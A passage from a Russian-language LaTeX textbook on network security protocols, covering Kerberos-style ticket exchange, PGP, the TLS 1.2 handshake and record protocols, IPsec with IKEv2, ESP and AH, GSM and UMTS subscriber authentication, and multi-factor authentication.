    \item Первичная аутентификация пользователя по паролю, получение сеансового ключа $K_{C,TGS}$ для дальнейшей аутентификации. Это действие выполняется один раз для каждого пользователя, чтобы уменьшить риск компрометации пароля.
        \begin{enumerate}
            \item $C \rightarrow AS: ~~ ID_C ~\|~ ID_{TGS} ~\|~ t_1 ~\|~ N_1$.
            \item $C \leftarrow AS: ~~ ID_C ~\|~ T_{TGS} ~\|~ E_{K_C}( K_{C,TGS} ~\|~ \tilde{t}_1 ~\|~ N_1 ~\|~ ID_{TGS})$.
        \end{enumerate}
    \item Аутентификация сеансовым ключом $K_{C,TGS}$ на сервере TGS для запроса доступа к сервису выполняется один раз для каждого сервиса. Получение другого сеансового ключа аутентификации $K_{C,S}$.
        \begin{enumerate}
            \item $C \rightarrow TGS: ~~ ID_S ~\|~ t_2 ~\|~ N_2 ~\|~ T_{TGS} ~\|~ E_{K_{C,TGS}}(ID_C ~\|~ ts_1)$.
            \item $C \leftarrow TGS: ~~ ID_C ~\|~ T_{S} ~\|~ E_{K_{C,TGS}}( K_{C,S} ~\|~ \tilde{t}_2 ~\|~ N_2 ~\|~ ID_S)$.
        \end{enumerate}
    \item Аутентификация сеансовым ключом $K_{C,S}$ на сервисе $S$ -- создание общего сеансового ключа дальнейшего взаимодействия.
        \begin{enumerate}
            \item $C \rightarrow S: ~~ T_{S} ~\|~ E_{K_{C,S}}(ID_C ~\|~ ts_2 ~\|~ K_1)$.
            \item $C \leftarrow S: ~~ E_{K_{C,S}}( ts_2 ~\|~ K_2)$.
        \end{enumerate}
\end{enumerate}

Аутентификация и проверка целостности достигается сравнением идентификаторов, одноразовых меток и меток времени внутри зашифрованных сообщений после расшифрования с их действительными значениями.

Некоторым недостатком схемы является необходимость синхронизации часов между субъектами сети.


\section{Шифрование файлов и почтовых сообщений в PGP}
\selectlanguage{russian}

В качестве примера передачи файлов по сети с обеспечением аутентификации, конфиденциальности и целостности рассмотрим систему PGP (Pretty Good Privacy), разработанную Филом Циммерманном (\langen{Phil Zimmermann}) в 1991 г. Изначально система предлагалась к использованию для защищённой передачи электронной почты. Стандартом PGP является OpenPGP. Примерами реализации стандарта OpenPGP являются GNU Privacy Guard (GPG) и netpgp, разработанные в рамках проектов GNU и NetBSD соответственно.

Каждый пользователь обладает одним или несколькими закрытыми ключами для криптосистемы с открытым ключом, которые используются для аутентификации посредством ЭП. Пользователь хранит также открытые ключи других пользователей, которые он использует для шифрования секретного сеансового ключа блочного шифрования. Передаваемое сообщение подписывается секретным ключом отправителя, затем сообщение шифруется блочной криптосистемой на случайно выбранном сеансовом ключе. Сам сеансовый ключ шифруется криптосистемой с открытым ключом на открытом ключе получателя.

Свои закрытые ключи отправитель хранит в зашифрованном виде. Набор ключей называется связкой закрытых ключей. Шифрование закрытых ключей в связке производится симметричным шифром\index{шифр!симметричный}, ключом которого является функция от пароля, вводимого пользователем. Шифрование закрытых ключей, хранимых на компьютере, является стандартной практикой для защиты от утечки, например, в случае взлома ОС, утери ПК и~т.\,д.

Набор открытых ключей других пользователей называется связкой открытых ключей.

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.9\textwidth]{pic/pgp}
	\caption{Схема обработки сообщения в PGP\label{fig:pgp}}
\end{figure}

На рис.~\ref{fig:pgp} представлена схема обработки сообщения в PGP для передачи от $A$ к $B$. Использование аутентификации, сжатия и блочного шифрования является опциональным. Обозначения на рисунке следующие.
\begin{itemize}
    \item Пароль -- пароль, вводимый отправителем для расшифрования связки своих закрытых ключей.
    \item $D$ -- расшифрование блочной криптосистемы для извлечения секретного ключа ЭП отправителя.
    \item $SK_A$ -- закрытый ключ ЭП отправителя.
    \item $ID_{SKa}$ -- идентификатор ключа ЭП отправителя, по которому получатель определяет, какой ключ из связки открытых ключей использовать для проверки подписи;
    \item $m$ -- сообщение (файл) для передачи.
    \item $h(m)$ -- криптографическая хэш-функция.
    \item $E_{SKa}$ -- схема ЭП на секретном ключе $SK_A$.
    \item $\|$ -- конкатенация битовых строк.
    \item $Z$ -- сжатие сообщения алгоритмом компрессии.
    \item $RND$ -- криптографический генератор псевдослучайной последовательности.
    \item $K_s$ -- сгенерированный псевдослучайный сеансовый ключ.
    \item $E_{Ks}$ -- блочное шифрование на секретном сеансовом ключе $K_s$.
    \item $PK_B$ -- открытый ключ получателя.
    \item $ID_{PKb}$ -- идентификатор открытого ключа получателя, по которому получатель определяет, какой ключ из связки закрытых ключей использовать для расшифрования сеансового ключа.
    \item $E_{PKb}$ -- шифрование сеансового ключа криптосистемой с открытым ключом на открытом ключе $B$.
    \item $c$ -- зашифрованное подписанное сообщение.
\end{itemize}


\section{Протокол SSL/TLS}\index{протокол!SSL/TLS}
\selectlanguage{russian}

Протокол SSL (\langen{Secure Sockets Layer}) был разработан компанией Netscape. Начиная с версии 3, протокол развивается как открытый стандарт TLS (\langen{Transport Layer Security}). Протокол SSL/TLS обеспечивает защищённое соединение по незащищённому каналу связи на прикладном уровне модели TCP/IP. Протокол встраивается между прикладным и транспортным уровнями стека протоколов TCP/IP. Для обозначения <<новых>> протоколов, полученных с помощью инкапсуляции прикладного уровня (HTTP\index{протокол!HTTP}, FTP\index{протокол!FTP}, SMTP\index{протокол!SMTP}, POP3\index{протокол!POP3}, IMAP\index{протокол!IMAP} и~т.\,д.) в SSL/TLS, к обозначению добавляют суффикс <<S>> (<<Secure>>): HTTPS\index{протокол!HTTPS}, FTPS\index{протокол!FTPS}, POP3S\index{протокол!POP3S}, IMAPS\index{протокол!IMAPS} и~т.\,д.

Протокол обеспечивает следующее:
\begin{itemize}
    \item Одностороннюю или взаимную аутентификацию клиента и сервера по открытым ключам сертификата X.509. В Интернете, как правило, делается \emph{односторонняя} аутентификация веб-сервера браузеру клиента, то есть только веб-сервер предъявляет сертификат (открытый ключ и ЭП к нему от вышележащего УЦ).
    \item Создание сеансовых симметричных ключей для шифрования и кода аутентификации сообщения для передачи данных в обе стороны.
    \item Конфиденциальность\index{конфиденциальность} -- блочное или потоковое шифрование передаваемых данных в обе стороны.
    \item Целостность\index{целостность} -- аутентификацию отправляемых сообщений в обе стороны имитовставкой\index{имитовставка} $\HMAC(K,M)$, описанной ранее.
\end{itemize}

Рассмотрим протокол TLS последней версии 1.2.


\subsection{Протокол <<рукопожатия>>}

Протокол <<рукопожатия>> (\langen{Handshake Protocol}) производит аутентификацию и создание сеансовых ключей между клиентом $C$ и сервером $S$.

\begin{enumerate}
    \item $C \rightarrow S$:
        \begin{enumerate}
            \item ClientHello: ~ 1) URI сервера, ~ 2) одноразовая метка $N_C$\index{одноразовая метка}, ~ 3) поддерживаемые алгоритмы шифрования, кода аутентификации сообщений, хэширования, ЭП и сжатия.
        \end{enumerate}

    \item $C \leftarrow S$:
        \begin{enumerate}
            \item ServerHello: одноразовая метка $N_S$, поддерживаемые сервером алгоритмы.

            После обмена набором желательных алгоритмов сервер и клиент по единому правилу выбирают общий набор алгоритмов.
            \item Server Certificate: сертификат X.509v3 сервера с запрошенным URI (URI нужен в случае нескольких виртуальных веб-серверов с разными URI на одном узле c одним IP-адресом).
            \item Server Key Exchange Message: информация для создания предварительного общего секрета $premaster$ длиной 48 байтов в виде: ~ 1) обмена по протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана} с клиентом (сервер отсылает $(g, g^a)$), ~ 2)Обмена по другому алгоритму с открытым ключом, ~ 3) разрешения клиенту выбрать ключ.
            \item Электронная подпись к Server Key Exchange Message на ключе сертификата сервера для аутентификации сервера клиенту.
            \item Certificate Request: опциональный запрос сервером сертификата клиента.
            \item Server Hello Done: идентификатор конца транзакции.
        \end{enumerate}

    \item $C \rightarrow S$:
        \begin{enumerate}
            \item Client Certificate: сертификат X.509v3 клиента, если он был запрошен сервером.
            \item Client Key Exchange Message: информация для создания предварительного общего секрета $premaster$ длиной 48 байтов в виде: ~ 1) либо обмена по протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана} с сервером (клиент отсылает $g^b$, в результате обе стороны вычисляют ключ $premaster = g^{ab}$), ~ 2) либо обмена по другому алгоритму, ~ 3) либо ключа, выбранного клиентом и зашифрованного на открытом ключе из сертификата сервера.
            \item Электронная подпись к Client Key Exchange Message на ключе сертификата клиента для аутентификации клиента серверу (если клиент использует сертификат).
            \item Certificate Verify: результат проверки сертификата сервера.
            \item Change Cipher Spec: уведомление о смене сеансовых ключей.
            \item Finished: идентификатор конца транзакции.
        \end{enumerate}

    \item $C \leftarrow S$:
        \begin{enumerate}
            \item Change Cipher Spec: уведомление о смене сеансовых ключей.
            \item Finished: идентификатор конца транзакции.
        \end{enumerate}
\end{enumerate}

%      http://tools.ietf.org/html/rfc5246#page-37

%      struct {
%          ProtocolVersion client_version;
%          Random random;
%          SessionID session_id;
%          CipherSuite cipher_suites<2..2^16-2>;
%          CompressionMethod compression_methods<1..2^8-1>;
%          select (extensions_present) {
%              case false:
%                  struct {};
%              case true:
%                  Extension extensions<0..2^16-1>;
%          };
%      } ClientHello;

%      struct {
%          ProtocolVersion server_version;
%          Random random;
%          SessionID session_id;
%          CipherSuite cipher_suite;
%          CompressionMethod compression_method;
%          select (extensions_present) {
%              case false:
%                  struct {};
%              case true:
%                  Extension extensions<0..2^16-1>;
%          };
%      } ServerHello;

%      struct {
%          ASN.1Cert certificate_list<0..2^24-1>;
%      } Certificate;

%      struct {
%          select (KeyExchangeAlgorithm) {
%              case dh_anon:
%                  ServerDHParams params;
%              case dhe_dss:
%              case dhe_rsa:
%                  ServerDHParams params;
%                  digitally-signed struct {
%                      opaque client_random[32];
%                      opaque server_random[32];
%                      ServerDHParams params;
%                  } signed_params;
%              case rsa:
%              case dh_dss:
%              case dh_rsa:
%                  struct {} ;
%                 /* message is omitted for rsa, dh_dss, and dh_rsa */
%              /* may be extended, e.g., for ECDH -- see [TLSECC] */
%          };
%      } ServerKeyExchange;

%      struct {
%          ClientCertificateType certificate_types<1..2^8-1>;
%          SignatureAndHashAlgorithm
%            supported_signature_algorithms<2^16-1>;
%          DistinguishedName certificate_authorities<0..2^16-1>;
%      } CertificateRequest;

%      struct {
%          select (KeyExchangeAlgorithm) {
%              case rsa:
%                  EncryptedPreMasterSecret;
%              case dhe_dss:
%              case dhe_rsa:
%              case dh_dss:
%              case dh_rsa:
%              case dh_anon:
%                  ClientDiffieHellmanPublic;
%          } exchange_keys;
%      } ClientKeyExchange;

%      struct {
%           digitally-signed struct {
%               opaque handshake_messages[handshake_messages_length];
%           }
%      } CertificateVerify;

%      struct {
%          opaque verify_data[verify_data_length];
%      } Finished;

Одноразовая метка $N_C$ состоит из 32 байтов. Первые 4 байта содержат текущее время (gmt\_unix\_time), оставшиеся байты -- псевдослучайную последовательность, которую формирует криптографически стойкий генератор псевдослучайных чисел.

Предварительный общий секрет $premaster$ длиной 48 байтов вместе с одноразовыми метками используется как инициализирующее значение генератора $PRF$ для получения общего секрета $master$, тоже длиной 48 байтов:
    \[ master = PRF(premaster, ~\text{текст \textquotedblleft master secret\textquotedblright}, ~ N_C + N_S) .\]

И, наконец, уже из секрета $master$ таким же способом генерируется 6 окончательных сеансовых ключей, следующих друг за другом в битовой строке:
    \[ \{ (K_{E,1} ~\|~ K_{E,2}) ~\|~ (K_{\MAC,1} ~\|~ K_{\MAC,2}) ~\|~ (IV_1 ~\|~ IV_2) \} = \]
        \[ = PRF(master, ~\text{текст \textquotedblleft key expansion\textquotedblright}, ~ N_C + N_S), \]
где ~ $K_{E,1}, ~ K_{E,2}$ -- два ключа симметричного шифрования, ~ $K_{\MAC,1}, ~ K_{\MAC,2}$ -- два ключа имитовставки\index{имитовставка}, ~ $IV_1, ~IV_2$ -- два инициализирующих вектора режима сцепления блоков\index{вектор инициализации}. Ключи с индексом 1 используются для шифрования сообщений, передаваемых от клиента к серверу, с индексом 2 -- от сервера к клиенту.


\subsection{Протокол записи}

Протокол записи (\langen{Record Protocol}) определяет формат TLS-пакетов для вложения в TCP-пакеты.

\begin{enumerate}
    \item Исходными сообщениями $M$ для шифрования являются пакеты протокола следующего уровня в модели OSI: HTTP\index{протокол!HTTP}, FTP\index{протокол!FTP}, IMAP\index{протокол!IMAP} и~т.\,д.
    \item Сообщение $M$ разбивается на блоки $m_i$ размером не более 16 кибибайт.
    \item Блоки $m_i$ сжимаются алгоритмом компрессии в блоки $z_i$.
    \item Вычисляется имитовставка\index{имитовставка} для каждого блока $z_i$ и добавляется в конец блоков: $a_i = z_i ~\|~ \HMAC(K_{\MAC}, z_i)$.
    \item Блоки $a_i$ шифруются симметричным алгоритмом с ключом $K_E$ в некотором режиме сцепления блоков с инициализирующим вектором $IV$ в полное сжатое аутентифицированное зашифрованное сообщение $C$.
    \item К шифртексту $C$ добавляется заголовок протокола записи TLS, в результате чего получается TLS-пакет для вложения в TCP-пакет.
\end{enumerate}


\section{Защита IPsec на сетевом уровне}
\selectlanguage{russian}

Набор протоколов IPsec (Internet Protocol Security)\index{протокол!IPsec}~\cite{rfc4301} является неотъемлемой частью IPv6\index{протокол!IPv6} и дополнительным необязательным расширением IPv4. IPsec обеспечивает защиту данных на сетевом уровне IP-пакетов.

IPsec определяет:
\begin{itemize}
    \item первичную аутентификацию сторон и управление сеансовыми ключами (протокол IKE, Internet Key Exchange),\index{протокол!IKE}
    \item шифрование с аутентификацией (протокол ESP, Encapsulating Security Payload),\index{протокол!ESP}
    \item только аутентификацию сообщений (протокол AH, Authentication Header)\index{протокол!AH}.
\end{itemize}
Основное (современное) применение этих протоколов состоит в построении VPN\index{протокол!VPN} (Virtual Private Network --- виртуальная частная сеть) при использовании IPsec в так называемом туннельном режиме.

Аутентификация в режимах ESP и AH определяется по-разному. Аутентификация в ESP гарантирует целостность только зашифрованных полезных данных (пакетов следующего уровня после IP). Аутентификация AH гарантирует целостность всего IP-пакета (за исключением полей, изменяемых в процессе передачи пакета по сети).

\subsection{Протокол создания ключей IKE}

%http://www.ietf.org/rfc/rfc4306.txt

Протокол IKE версии 2 (Internet Key Exchange)\index{протокол!IKE}~\cite{rfc4306}, по существу, можно описать следующим образом. Пусть $I$ -- инициатор соединения, $R$ -- отвечающая сторона.

Протокол состоит из двух фаз. Первая фаза очень похожа на установление соединения в SSL/TLS: она включает возможный обмен сертификатами $C_I, C_R$ стандарта X.509 для аутентификации (или альтернативную аутентификацию по общему заранее созданному секретному ключу) и создание общих предварительных сеансовых ключей протокола IKE по протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана}. Сеансовые ключи протокола IKE служат для шифрования и аутентификации сообщений второй фазы. Вторая фаза создаёт сеансовые ключи для протоколов ESP, AH, то есть ключи для шифрования конечных данных. Сообщения второй фазы также используются для смены ранее созданных сеансовых ключей, и в этом случае протокол сразу начинается со второй фазы с применением ранее созданных сеансовых ключей протокола IKE.

\begin{enumerate}
    \item Создание предварительной защищённой связи для протокола IKE и аутентификация сторон.
        \begin{enumerate}
            \item $I \rightarrow R$: ~ $\left(g^{x_I}\right.$, одноразовая метка $N_I$, идентификаторы поддерживаемых криптографических алгоритмов$\left.\right)$.
                % HDR, SAi1, KEi, Ni   -->

            \item $I \leftarrow R$: ~$\left(g^{x_R}\right.$, одноразовая метка $N_R$, идентификаторы выбранных алгоритмов, запрос сертификата $C_I\left.\right)$.
                % <--    HDR, SAr1, KEr, Nr, [CERTREQ]

                Протокол Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана} оперирует с генератором $g=2$ в группе $\Z_p^*$ для одного из двух фиксированных $p$ длиной 768 или 1024 бита. После обмена элементами $g^{x_I}$ и $g^{x_R}$ обе стороны обладают общим секретом $g^{x_I x_R}$.

                Одноразовые метки $N_I, N_R$ созданы криптографическим генератором псевдослучайных чисел $PRF$.

                После данного сообщения стороны договорились об используемых алгоритмах и создали общие сеансовые ключи:
                    \[ seed = PRF(N_i ~\|~ N_r, ~g^{x_I x_R}), \]
                    \[ \{ K_d \| Ka_I \| Ka_R \| Ke_I \| Ke_R
                        % \| Kp_I \| Kp_R
                        \} = PRF(seed, ~ N_i ~\|~ N_r), \]
                где $Ka_I, Ka_R$ -- ключи кода аутентификации для связи в оба направления, ~ $Ke_I, Ke_R$ -- ключи шифрования сообщений для двух направлений, ~ $K_d$ -- инициирующее значение генератора $PRF$ для создания сеансовых ключей окончательной защищённой связи, ~ функцией $PRF(x)$ обозначается выход генератора с инициализирующим значением $x$.
                %$Kp_I, Kp_R$ --  which areused when generating an AUTH payload.

                Дальнейший обмен данными зашифрован алгоритмом AES в режиме CBC со случайно выбранным инициализирующим вектором $IV$ на сеансовых ключах $Ke$  и аутентифицирован имитовставкой\index{имитовставка} на ключах $Ka$. Введём обозначения для шифрования сообщения $m$ со сцеплением блоков $E_{Ke_X}(m)$ и совместного шифрования и добавления кода аутентификации сообщений $\langle m \rangle_X$ для исходящих данных от стороны $X$:
                    \[  E_{Ke_X}(m) = IV ~\|~ E_{Ke_X}(IV ~\|~ m), \]
                    \[  \langle m \rangle_X = E_{Ke_X}(m) ~\|~ \HMAC(Ka_X, ~ E_{Ke_X}(m)). \]

            \item $I \rightarrow R$: ~ $\langle ID_I, ~ C_I, ~\text{запрос сертификата}~ C_R, ~ ID_R, ~ A_I \rangle_I$.
                % HDR, SK {IDi, [CERT,] [CERTREQ,] [IDr,] AUTH, SAi2, TSi, TSr}     -->

                По значениям идентификаторов $ID_I, ID_R$ сторона $R$ проверяет знание стороной $I$ ключей $Ke, Ka$.

                Поле $A_I$ обеспечивает аутентификацию стороны $I$ стороне $R$ по одному из двух способов. Если используются сертификаты, то $I$ показывает, что обладает закрытым ключом, парным открытому ключу сертификата $C_I$, подписывая сообщение $data$:
                    \[ A_I = \textrm{ЭП}(data). \]
                Сторона $R$ также проверяет сертификат $C_I$ по цепочке до доверенного сертификата верхнего уровня.

                Второй вариант аутентификации  -- по общему секретному симметричному ключу аутентификации $K_{IR}$, который заранее был создан $I$ и $R$, как в Kerberos. Сторона $I$ показывает, что знает общий секрет, вычисляя
                    \[ A_I = PRF( PRF(K_{IR}, ~ \text{текст ''Key Pad for IKEv2''}), ~ data). \]
                Сторона $R$ сравнивает присланное значение $A_I$ с вычисленным и убеждается, что $I$ знает общий секрет.

                Сообщение $data$ -- это открытое сообщение данной транзакции, за исключением нескольких полей.

            \item $I \leftarrow R$: ~ $\langle ID_R, ~ C_R, ~ A_R \rangle_R$.
                % HDR, SK {IDr, [CERT,] AUTH, SAr2, TSi, TSr}

                Производится аутентификация стороны $R$ стороне $I$ аналогичным образом.
        \end{enumerate}

    \item Создание защищённой связи для протоколов ESP, AH, то есть ключей шифрования и кодов аутентификации конечных полезных данных. Фаза повторяет первые две транзакции первой фазы с созданием ключей по одноразовой метке $N'$ и протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана} с секретными ключами $x'$.
        \begin{enumerate}
            \item $I \rightarrow R$: ~ $\langle g^{x'_I}$, одноразовая метка $N'_I$, поддерживаемые алгоритмы для ESP, AH$\rangle_I$.
                % HDR, SK {[N], SA, Ni, [KEi], [TSi, TSr]}             -->
            \item $I \rightarrow R$: ~ $\langle g^{x'_R}$, одноразовая метка $N'_R$, выбранные алгоритмы для ESP, AH$\rangle_R$.
                % <--    HDR, SK {SA, Nr, [KEr], [TSi, TSr]}
        \end{enumerate}
        По окончании второй фазы обе стороны имеют общие секретные ключи $Ke, Ka$ для шифрования и кодов аутентификации в двух направлениях, от стороны $I$ и от стороны $R$:
            \[ \{Ka'_I ~\|~ Ka'_R ~\|~ Ke'_I ~\|~ Ke'_R \} = PRF(K_d, ~ g^{x'_I x'_R} ~\|~ N'_I ~\|~ N'_r). \]
\end{enumerate}

Итогом протокола IKE является набор сеансовых ключей для шифрования $Ke'_I, ~ Ke'_R$ и кодов аутентификации $Ka'_I, ~ Ka'_R$ в протоколах ESP и AH.


\subsection{Таблица защищённых связей}

\textbf{защищённая связь} (Security Association, SA) является \emph{однонаправленной} от отправителя к получателю и характеризуется трёмя основными параметрами:
\begin{itemize}
    \item индексом параметров защиты -- уникальное 32-битовое число, входит в заголовок ESP- и AH- пакетов,
    \item IP-адресом стороны-отправителя,
    \item идентификатором применения ESP- или AH-протокола.
\end{itemize}

защищённые связи хранятся в таблице защищённых связей со следующими полями.
\begin{itemize}
    \item Счётчик порядкового номера, входит в заголовок ESP- и AH-пакетов.
    \item Окно защиты от воспроизведения -- скользящий буфер порядковых номеров пакетов для защиты от пропуска и повтора пакетов.
    \item Информация протокола ESP и AH -- алгоритмы, ключи, время действия ключей.
    \item Режим протокола: транспортный или туннельный.
\end{itemize}

По индексу параметров защиты, находящемся в заголовке ESP- и AH-пакетов, получатель из таблицы защищённых связей извлекает параметры (названия алгоритмов, ключи и т.~д.), производит проверки счётчиков, аутентифицирует и расшифровывает вложенные данные для принятого IP-пакета.
%Или создаёт зашифрованный аутентифицированный IP пакет, который включает индекс параметров защиты, чтобы получатель мог из своей таблицы защищённых связей извлечь ключи для аутентификации и расшифрования.

Протоколы ESP и AH можно применять к IP-пакету в трёх вариантах:
\begin{itemize}
    \item только ESP-протокол,
     \item только AH-протокол,
    \item последовательное применение ESP и AH протоколов.
\end{itemize}
Подчеркнем, что только AH-протокол гарантирует целостность всего IP-пакета, поэтому для организации виртуальной сети VPN\index{сеть!виртуальная частная}, как правило, применяется третий вариант (последовательно ESP и AH протоколы).


\subsection{Транспортный и туннельный режимы}

Протоколы ESP, AH могут применяться в транспортном режиме, когда исходный IP-пакет расширяется заголовками и концевиками протоколов ESP, AH, или в туннельном режиме, когда весь IP-пакет вкладывается в новый IP-пакет, который включает заголовки и концевики ESP, AH.

Новый IP-пакет в туннельном режиме может иметь другие IP-адреса, отличные от оригинальных. Именно это свойство используется для построения виртуальных частных сетей (Virtual Private Network, VPN)\index{сеть!виртуальная частная}. IP-адресом нового пакета является IP-адрес IPsec шлюза виртуальной сети. IP-адрес вложенного пакета является локальным адресом виртуальной сети. IPsec шлюз производит преобразование IPsec пакетов в обычные IP-пакеты виртуальной сети и наоборот.

Схемы транспортного и туннельного режимов показаны ниже отдельно для ESP- и AH-протоколов.


\subsection{Протокол шифрования и аутентификации ESP}

Протокол ESP\index{протокол!ESP} определяет шифрование и аутентификацию вложенных в IP-пакет сообщений в формате, показанном на рис.~\ref{fig:ipsec-esp}.

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.9\textwidth]{pic/ipsec-esp}
	\caption{Формат ESP пакета\label{fig:ipsec-esp}}
\end{figure}

Шифрование вложенных данных производится в режиме CBC алгоритмом AES на ключе $Ke'$ с псевдослучайным вектором инициализации IV, вставленном перед зашифрованными данными.

Аутентификатор сообщения определяется как усечённое до 96 бит значение $\HMAC(Ka', m)$, вычисленное стандартным способом.

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.9\textwidth]{pic/ipsec-esp-modes}
	\caption{Применение ESP протокола к пакету IPv6\label{fig:ipsec-esp-modes}}
\end{figure}

На рис.~\ref{fig:ipsec-esp-modes} показано применение протокола в транспортном и туннельном режимах.


\subsection{Протокол аутентификации AH}

Протокол AH определяет аутентификацию всего IP пакета в формате, показанном на рис.~\ref{fig:ipsec-ah}.

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.7\textwidth]{pic/ipsec-ah}
	\caption{Заголовок AH пакета\label{fig:ipsec-ah}}
\end{figure}

Аутентификатор сообщения определяется так же, как и в протоколе ESP --  усечённое до 96 бит значение $\HMAC(Ka', m)$, вычисленное стандартным способом.

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.9\textwidth]{pic/ipsec-ah-modes}
	\caption{Применение протокола AH к пакету IPv6\label{fig:ipsec-ah-modes}}
\end{figure}

На рис.~\ref{fig:ipsec-ah-modes} показано применение протокола в транспортном и туннельном режимах.


\section[Защита персональных данных в мобильной связи]{Защита персональных данных в \protect\\ мобильной связи}

\subsection{russian}{GSM2}

Регистрация телефона в сети GSM2 построена с участием трех сторон: сим-карты мобильного устройства, базовой станции и центра аутентификации. Сим-карта и центр аутентификации обладают общим секретным 128-битовым ключом $K_i$. Вначале телефон сообщает базовой станции уникальный идентификатор сим-карты IMSI открытым текстом. Базовая станция запрашивает в Центре аутентификации для данного IMSI набор параметров для аутентификации. Центр генерирует псевдослучайное 128-битовое число $\textrm{RAND}$ и алгоритмами A3 и A8\index{алгоритм!A3, A5, A8} создает симметричный 54-битовый ключ $K_c$ и 32-битовый аутентификатор $\textrm{RES}$. Базовая станция передает мобильному устройству число $\textrm{RAND}$ и ожидает результат вычисления сим-картой числа $\textrm{XRES}$, которое должно совпадать с $\textrm{RES}$ в случае успешной аутентификации. Схема аутентификации показана на рис. \ref{fig:gsm2}.

\begin{figure}[h!]
	\centering
	\includegraphics[width=0.85\textwidth]{pic/gsm2}
	\caption{Односторонняя аутентификация и шифрование в GSM2\label{fig:gsm2}}
\end{figure}

Все вычисления для аутентификации выполняет сим-карта. Ключ $K_c$ далее используется для создания ключа шифрования каждого фрейма $K = K_c \| n_F$, где $n_F$ -- 22-битовый номер фрейма. Шифрование выполняет уже само мобильное устройство. Алгоритм шифрования фиксирован в каждой стране и выбирается из семейства алгоритмов A5 (A5/1, A5/2, A5/3). В GSM2 применяется либо алгоритм A5/1, либо A5/2 (используется в России). Алгоритм A5/3 применяется уже в сети GSM3.

Аутентификация в сети GSM2 односторонняя. При передаче данных не используются проверка целостности и аутентификация сообщений. Передача данных между базовыми станциями происходит в открытом незашифрованном виде. Алгоритмы шифрования A5/1 и A5/2 не стойкие, количество операций для взлома A5/1 -- $2^{40}$, A5/2 -- $2^{16}$. Кроме того, длина ключа $K_c$ всего 54 бита. Передача в открытом виде уникального идентификатора IMSI позволяет однозначно определить абонента.


\subsection{UMTS (3G)}
\selectlanguage{russian}

В третьем поколении мобильных сетей, называемом UMTS, защищённость немного улучшена. Общая схема аутентификации (рис.~\ref{fig:gsm3}) осталась примерно такой же, как и в GSM. Жирным шрифтом на рисунке выделены новые добавленные элементы по сравнению с GSM.
\begin{enumerate}
    \item Производится взаимная аутентификация SIM-карты и центра аутентификации по токенам $\textrm{RES}$ и $\MAC$.
    \item Добавлены проверка целостности и аутентификация данных (имитовставка\index{имитовставка}).
    \item Используются новые алгоритмы создания ключей, шифрования и имитовставки\index{имитовставка}.
    \item Добавлены счётчики на SIM-карте $\textrm{SQN}_{\textrm{T}}$ и в центре аутентификации $\textrm{SQN}_{\textrm{Ц}}$ для защиты от атак воспроизведения. Значения увеличиваются при каждой попытке аутентификации и должны примерно совпадать.
    \item Увеличена длина ключа шифрования до 128 бит.
\end{enumerate}

\begin{figure}[!ht]
	\centering
	\includegraphics[width=\textwidth]{pic/gsm3}
	\caption{Взаимная аутентификация и шифрование в UMTS (3G)\label{fig:gsm3}}
\end{figure}

Обозначения на рис.~\ref{fig:gsm3} следующие:
\begin{itemize}
    \item $K$~-- общий секретный 128-битовый ключ SIM-карты и центра аутентификации;
    \item $\textrm{RAND}$~-- 128-битовое псевдослучайное число, создаваемое центром аутентификации;
    \item $\textrm{SQN}_{\textrm{T}}, \textrm{SQN}_{\textrm{Ц}}$~-- 48-битовые счётчики для защиты от атак воспроизведения;
    \item $\textrm{AMF}$~-- 16-битовое значение окна для проверки синхронизации счётчиков;
    \item $CK, IK, AK$~-- 128-битовые ключи шифрования данных $CK$, кода аутентификации данных $IK$, гаммы значения счётчика $AK$;
    \item $\MAC, \textrm{XMAC}$~-- 128-битовые аутентификаторы центра SIM-карте;
    \item $\textrm{RES}, \textrm{XRES}$~-- 128-битовые аутентификаторы SIM-карты центру;
    \item $\textrm{AUTN}$~-- вектор аутентификации.
\end{itemize}

Алгоритмы $fi$ не фиксированы стандартом и выбираются при реализациях.

Из оставшихся недостатков защиты персональных данных можно перечислить.
\begin{enumerate}
    \item Уникальный идентификатор SIM-карты IMSI по-прежнему передаётся в открытом виде, что позволяет идентифицировать абонентов по началу сеанса регистрации SIM-карты в сети.
    \item Шифрование и аутентификация производятся только между телефоном и базовой станцией, а не между двумя телефонами. Это является необходимым условием для подключения СОРМ (Система технических средств для обеспечения функций оперативно-розыскных мероприятий) по закону <<О связи>>. С другой стороны, это повышает риск нарушения конфиденциальности персональных данных.
    \item Алгоритм шифрования данных A5/3 (KASUMI) на 128-битовом ключе теоретически взламывается атакой на основе известного открытого текста для 64 MB данных с использованием 1 GiB памяти $2^{32}$ операциями (2 часа на обычном ПК).
\end{enumerate}


%\section{Беспроводная сеть Wi-Fi}
%\subsection{WPA-PSK2, 802.11n, Radix?}
%\subsection{Wimax 802.16(?)}

\chapter{Аутентификация пользователя}


\section{Многофакторная аутентификация}

Для защищённых приложений применяется \textbf{многофакторная} аутентификация одновременно по факторам различной природы:
\begin{enumerate}
    \item Свойство, которым обладает субъект. Например: биометрия, природные уникальные отличия (лицо, радужная оболочка глаз, папиллярные узоры, последовательность ДНК).
    \item Знание -- информация, которую знает субъект. Например: пароль, PIN-код.
    \item Владение -- вещь, которой обладает субъект. Например: электронная или магнитная карта, флеш-память.
%    \item Факторы присвоения. Например, номер машины, RFID-метка.
\end{enumerate}

В обычных массовых приложениях из-за удобства использования применяется аутентификация только по \textbf{паролю}\index{пароль}, который является общим секретом пользователя и информационной системы. Биометрическая аутентификация по отпечаткам пальцев применяется существенно реже. Как правило, аутентификация по отпечаткам пальцев является дополнительным, а не вторым обязательным фактором (тоже из-за удобства её использования).

%Так же явно или неявно используется аутентификация по факторам:
%\begin{enumerate}
%    \item Социальная сеть. Доверие к индивидууму в личном или интернет общении, на основании общих связей.
%    \item Географическое положение. Например, для проверки оплаты товаров по кредитной карте.
%    \item Время. Доступ к сервисам или местам только в определённое время.
%    \item И др.
%\end{enumerate}


\section[Энтропия и криптостойкость паролей]{Энтропия и криптостойкость \protect\\ паролей}

